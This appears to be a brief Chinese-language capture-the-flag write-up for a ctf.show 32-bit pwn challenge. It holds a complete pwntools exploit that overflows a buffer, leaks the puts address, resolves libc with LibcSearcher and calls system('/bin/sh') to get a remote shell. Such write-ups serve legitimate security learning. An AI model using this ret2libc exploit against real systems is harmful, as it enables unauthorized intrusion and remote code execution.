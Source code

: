 

注意：

观察接受形式：

```
\xd4\xf7\xc0\xfa\xd8\xf7
```



```
puts_addr = u32(p.recvuntil('\xf7')[-4:])
```



Libc库选择：

```
libc6-i386_2.27-3ubuntu1_amd64
```



那这个跟之前的pwn25好像一样，那就直接exp：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28295

p = remote(ip,port)
elf = ELF('./pwn')

offset = b'a'* (0x6B + 0x04)

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
ctfshow_addr = elf.symbols['ctfshow']

payload = offset

payload += p32(puts_plt) 
payload += p32(ctfshow_addr)
payload += p32(puts_got)

p.recvuntil(b'O.o?')
p.sendline(payload)

puts_addr = u32(p.recvuntil('\xf7')[-4:])


libc = LibcSearcher("puts",puts_addr)

libc_base = puts_addr - libc.dump('puts')

system_addr = libc_base + libc.dump('system')

binsh_addr = libc_base + libc.dump('str_bin_sh')

payload_exp = offset
payload_exp += p32(system_addr)
payload_exp += p32(0)
payload_exp += p32(binsh_addr)

p.sendline(payload_exp)
```
